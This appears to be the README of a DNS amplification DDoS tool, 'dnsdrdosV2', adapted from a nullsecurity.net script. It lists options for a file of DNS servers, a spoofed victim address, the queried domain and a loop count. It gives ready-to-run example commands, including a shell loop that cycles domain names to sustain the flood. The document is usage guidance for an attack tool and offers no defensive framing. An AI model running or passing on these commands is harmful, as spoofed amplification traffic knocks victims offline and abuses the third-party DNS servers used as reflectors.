 # DNS amplification DDOS attack
This is an edited version of the original script of noptrix of nullsecurity.net.

DNS ANY query request more data and because of that increase the amplification of the attack

usage:

  dnsdrdosV2 -f <file> [options] | [misc]
    
target:

  -f <file>       - list of dns servers (only one ip-address per line!)
  -s <addr>       - ip-address to spoof (default: 127.0.0.1)
  -d <domain>     - which domain should be requested? (default: "google.com.")
  -l <num>        - how many loops through list? (default: 10000)

misc:

  -V              - show version
  -H              - show help and usage

example:

  ./dnsdrdosV2 -f nameserver.lst -s 192.168.2.211 -d google.com. -l 10000
  
  or better:
  
  $ for i in `seq 1 1000`; do ./dnsdrdosV2 -f nameserver.lst -s 192.168.2.211 -d $i -l 10000; done

  This is better, because we ask dynamically for any domain names.
  Even if the domainname is not given, 'we' still would recieve DNS answers.
